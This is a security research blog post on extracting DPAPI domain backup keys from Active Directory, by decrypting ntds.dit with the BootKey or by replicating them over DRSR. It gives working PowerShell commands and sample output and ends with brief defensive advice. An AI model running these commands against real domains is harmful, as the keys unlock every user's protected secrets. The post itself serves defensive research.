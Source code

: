 ```yaml
---
ref: dpapi-backup-keys
title: 'Retrieving DPAPI Backup Keys from&nbsp;Active Directory'
date: 2015-10-26T22:51:00+00:00
layout: post
lang: en
permalink: /en/retrieving-dpapi-backup-keys-from-active-directory/
---
```

<h3 style="text-align: justify;">
  Introduction
</h3>

<p style="text-align: justify;">
  The Data Protection API (DPAPI) is&nbsp;used by&nbsp;several components of&nbsp;Windows to securely store passwords, encryption keys and&nbsp;other sensitive data. When&nbsp;DPAPI is&nbsp;used in&nbsp;an Active Directory domain environment, a&nbsp;copy of&nbsp;user&#8217;s master key is&nbsp;encrypted with a&nbsp;so-called DPAPI Domain Backup Key that&nbsp;is&nbsp;known to&nbsp;all domain controllers. Windows Server 2000 DCs use a&nbsp;symmetric key and&nbsp;newer systems use a&nbsp;public/private key pair. If&nbsp;the&nbsp;user password is&nbsp;reset and&nbsp;the&nbsp;original master key is&nbsp;rendered inaccessible to&nbsp;the user, the&nbsp;user&#8217;s access to&nbsp;the master key is&nbsp;automatically restored using the&nbsp;backup key.
</p>

<h3 style="text-align: justify;">
  The&nbsp;Mimikatz Method
</h3>

<p style="text-align: justify;">
  Benjamin Delpy has already found a&nbsp;way to&nbsp;extract these backup keys from&nbsp;the&nbsp;LSASS of&nbsp;domain controllers and&nbsp;it even&nbsp;works remotely:
</p>

[<img class="aligncenter wp-image-6211 size-full" src="https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png" alt="Mimikatz DPAPI Backup Keys" width="741" height="331" srcset="https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png 741w, https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys-300x134.png 300w" sizes="(max-width: 741px) 100vw, 741px" />](https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png)

### Key Storage

<p style="text-align: justify;">
  I have taken Benjamin&#8217;s research one step further and&nbsp;I&nbsp;can now&nbsp;extract these keys directly from&nbsp;the&nbsp;Active Directory database, where&nbsp;they are physically stored:
</p>

[<img class="aligncenter wp-image-6231 size-full" src="https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png" alt="Backup Key Storage" width="643" height="254" srcset="https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png 643w, https://www.dsinternals.com/wp-content/uploads/backupkeys_storage-300x119.png 300w" sizes="(max-width: 643px) 100vw, 643px" />](https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png)

<p style="text-align: justify;">
  The&nbsp;keys are stored in&nbsp;the&nbsp;<strong>currentValue</strong> attribute of&nbsp;objects whose names begin with <strong>BCKUPKEY</strong> and&nbsp;are of&nbsp;class<strong> secret</strong>. The&nbsp;<strong>BCKUPKEY_PREFERRED Secret</strong> and&nbsp;<strong>BCKUPKEY_P Secret</strong> objects actually only contain GUIDs of&nbsp;objects that&nbsp;hold the&nbsp;current modern and&nbsp;legacy keys, respectively. Furthermore, the&nbsp;currentValue attribute is&nbsp;encrypted using BootKey (aka SysKey) and&nbsp;is&nbsp;never sent through LDAP.
</p>

<h3 style="text-align: justify;">
  The&nbsp;Database Dump Method
</h3>

<p style="text-align: justify;">
  The&nbsp;<strong>Get-BootKey</strong>, <strong>Get-ADDBBackupKey</strong> and&nbsp;<strong>Save-DPAPIBlob</strong> cmdlets from&nbsp;my <a href="https://www.dsinternals.com/en/downloads/">DSInternals PowerShell Module</a> can be used to&nbsp;retrieve the&nbsp;DPAPI Domain Backup Keys from&nbsp;ntds.dit files:
</p>

<pre class="lang:ps decode:true"># We need to&nbsp;get the&nbsp;BootKey from&nbsp;the&nbsp;SYSTEM registry hive first:
Get-BootKey -SystemHiveFilePath 'C:\IFM\registry\SYSTEM'

&lt;#
Output:

41e34661faa0d182182f6ddf0f0ca0d1

#&gt;

# Now&nbsp;we can decrypt the&nbsp;DPAPI backup keys from&nbsp;the&nbsp;database:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Format-List

&lt;#
Output:

Type&nbsp;: LegacyKey
DistinguishedName&nbsp;: CN=BCKUPKEY_7882b20e-96ef-4ce5-a2b9-3efdccbbce28 Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {77, 138, 250, 6...}
KeyId&nbsp;: 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type&nbsp;: PreferredLegacyKeyPointer
DistinguishedName&nbsp;: CN=BCKUPKEY_P Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {14, 178, 130, 120...}
KeyId&nbsp;: 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type&nbsp;: RSAKey
DistinguishedName&nbsp;: CN=BCKUPKEY_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {48, 130, 9, 186...}
KeyId&nbsp;: b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

Type&nbsp;: PreferredRSAKeyPointer
DistinguishedName&nbsp;: CN=BCKUPKEY_PREFERRED Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {62, 106, 197, 177...}
KeyId&nbsp;: b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

#&gt;

# In&nbsp;most cases, we just want to&nbsp;export these keys to&nbsp;the file system:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Save-DPAPIBlob -DirectoryPath .\Keys

# New files should have been created in&nbsp;the&nbsp;Keys directory:

(dir .\Keys).Name

&lt;#
Output:

ntds_capi_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d.pfx
ntds_legacy_7882b20e-96ef-4ce5-a2b9-3efdccbbce28.key

#&gt;</pre>

Note that&nbsp;mimikatz would name these files similarly.

### The&nbsp;DRSR Method

<p style="text-align: justify;">
  The&nbsp;same result can be achieved by&nbsp;communicating with the&nbsp;Directory Replication Service using the&nbsp;<strong>Get-ADReplBackupKey</strong> cmdlet:
</p>

<pre class="lang:ps decode:true">Get-ADReplBackupKey -Domain 'Adatum.com' -Server LON-DC1 |
    Save-DPAPIBlob -DirectoryPath .\Keys</pre>

### Defense

I&nbsp;am already starting to&nbsp;repeat myself:

<li style="text-align: justify;">
  Restrict access to&nbsp;domain controller backups.
</li>
<li style="text-align: justify;">
  Be cautious when&nbsp;delegating the&nbsp;&#8220;Replicating Directory Changes All&#8221; right.
</li>

&nbsp;
